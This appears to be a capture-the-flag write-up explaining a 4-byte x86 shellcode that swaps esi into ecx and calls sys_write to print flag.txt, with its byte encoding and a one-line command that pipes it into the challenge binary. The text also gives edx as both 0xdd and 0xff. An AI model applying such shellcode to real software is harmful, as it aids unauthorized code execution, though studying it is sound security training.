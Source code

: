 The idea behind this is to write shellcode in no more than 5 bytes. My solution
actually requires 4 bytes, The trick is that the state of the registers matters
when the code is run. At that point, eax is the length (4), ebx is 1, esi is
a pointer to flag.txt's value, and edx is 0xdd.

That means that eax is already set up to call sys_write (4), ebx is already set
to stdout (1), and edx is already set to a useful length (0xff). That just
leaves one thing before we can use sys_write: setting ecx to flag.txt.

This simple shellcode will take care of that, then call sys_write:
* xchg esi, ecx
* int 0x80

Which compiles to:
87 ce cd 80

So you can own it with:
echo -ne "\x87\xce\xcd\x80" | ./shortest

